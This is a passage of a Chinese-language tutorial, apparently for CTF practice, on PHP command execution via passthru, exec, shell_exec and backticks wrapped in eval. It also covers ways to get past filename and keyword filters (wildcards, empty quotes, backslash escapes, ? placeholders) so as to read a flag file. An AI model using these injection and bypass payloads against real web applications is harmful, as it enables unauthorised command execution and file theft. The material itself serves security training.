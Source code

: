   ```php
  passthru('ls');
  eval("passthru('ls');");
  ```
* `exec`：执行一个外部程序，但是不像前面两个一样，会显示输出，要使用echo输出

  ```php
  echo exec('ls');
  eval("echo exec('ls');");
  ```
* `shell_exec`：通过shell执行命令，并将完整的输出以字符串的方式返回，也需要echo输出

  ```php
  echo shell_exec('ls');
  eval("echo shell_exec('ls');");
  ```
* 反引号命令执行：php支持反引号作为执行运算符，php会将反引号作为shell命令执行，并返回输出信息

  ```php
  echo `ls`;
  eval('echo `ls`;')
  ```

### 常用测试命令

* `phpinfo()`：可以用来查看是否成功，也能看一些php的信息
* `ls`：读取目录
* `cat`：读取文件
* `tac`：读取文件，不过是反过来的
* `base64`：将文件以base64输出
* `sort`：将文件进行排序并输出

### 文件名和命令过滤

* `*`通配符绕过

  ```bash
  cat flag*
  cat fla*.txt
  ```
* `''`空字符匹配绕过

  ```bash
  cat fl''ag.txt
  ```

  ![image-20250311160549263](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311160549263.png)
* `\`转义绕过：`\`是转义字符，一般来说，\a，就会被识别为a

  ```bash
  cat fl\ag.txt
  ```

  ![image-20250311160654249](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311160654249.png)
* `?`占位绕过

  ```bash
  cat fla?.txt
  ```
